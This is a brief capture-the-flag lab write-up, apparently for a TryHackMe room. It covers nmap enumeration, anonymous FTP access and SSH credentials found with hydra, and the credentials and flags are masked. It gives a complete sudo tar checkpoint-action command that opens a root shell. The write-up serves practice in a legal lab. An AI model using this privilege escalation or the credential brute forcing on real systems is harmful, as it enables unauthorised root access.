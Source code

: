 # Easy room to practice basic enumeration and privilege escalation in linux

## Nmap scan found the following ports

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
http-server-header: Apache/2.4.18 (Ubuntu)
```
## FTP allows anonymous login

```
found locks.txt & task.txt files in FTP directory
```

## Found login and password to ssh using hydra

```
user: ***
password: *******************

```
## Found flag1: `THM{*****_*********}`

## Using sudo -l found that user can run tar as sudo 
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`
opens a shell as root and then found root flag under _/root/root.txt_

## Found flag2:`THM{******_******}`
